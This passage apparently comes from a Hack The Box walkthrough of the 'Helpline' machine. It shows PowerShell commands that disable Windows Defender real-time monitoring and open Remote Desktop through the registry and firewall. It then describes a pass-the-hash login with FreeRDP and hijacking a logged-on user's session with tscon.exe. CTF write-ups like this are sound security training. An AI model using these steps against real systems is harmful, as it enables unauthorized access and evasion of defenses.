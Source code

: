 Hmm. Only `zachary`'s password is cracked. Perhaps a more efficient way is to pass-the-hash to a tool like FreeRDP. Before we do that, we need to disable Windows Defender and turn on Remote Desktop Services with PowerShell to give ourselves more options.

#### Disable Windows Defender Real-time Protection

```
PS> Set-MpPreference -DisableRealtimeMonitoring $true
```

#### Enable Remote Desktop Services

_Enable Remote Desktop_

```
PS> Set-ItemProperty -Path 'HKLM:\\System\\CurrentControlSet\\Control\\Terminal Server'-name "fDenyTSConnections" -Value 0
```

_Allow incoming RDP on firewall_

```
PS> Set-NetFirewallRule -Name RemoteDesktop-UserMode-In-TCP -Enabled true
```

_Enable secure RDP authentication_

```
PS> Set-ItemProperty -Path 'HKLM:\\System\\CurrentControlSet\\Control\\Terminal Server\\WinStations\\RDP-Tcp' -name "UserAuthentication" -Value 1
```

### Hijacking Remote Desktop Services

During my enumeration, I noticed that `leo` is logged on to the physical console, probably through automatic logon.

<a class="image-popup">
![a17b2b83.png](/assets/images/posts/helpline-htb-walkthrough/a17b2b83.png)
</a>

And since I'm `SYSTEM`, I can make use of `tscon.exe` to hijack that session into my own. How do I do that? I can pass the `administrator`'s NTLM hash to FreeRDP instead of a password. That will create an RDP session and with `tscon.exe`, I can hand over `leo`'s session over to the newly created session.

<a class="image-popup">
![357adc29.png](/assets/images/posts/helpline-htb-walkthrough/357adc29.png)
</a>
